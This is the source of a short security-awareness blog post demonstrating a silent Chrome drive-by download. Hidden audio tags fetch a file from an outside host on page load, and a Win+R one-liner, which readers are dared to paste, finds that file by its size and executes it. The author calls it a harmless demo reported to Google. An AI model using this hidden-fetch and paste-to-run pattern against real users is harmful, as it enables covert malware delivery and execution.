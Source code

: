 ```yaml
---
layout: post
title: Don't run commands you don't really understand
comments: true
---
```


This demonstrates a fully silent drive-by download in Google Chrome -
  and will launch a demo PoC if you dare to paste this seemingly harmless command in a Win+R prompt:

<pre>
cmd /c for /r %g in (*_*) do if %~zg==23456 copy /y "%g" "%g.log" & "%g.log"
</pre>

Can you figure out how this works?

<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />
<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />

Notes: 

  * The PoC is a harmless demo
  * Chiptune in PoC is (c) 1999 WAVE
  * Reported to Google in November 2015 (status: Wontfix)

<A href=https://twitter.com/hexatomium>Follow</A> @hexatomium
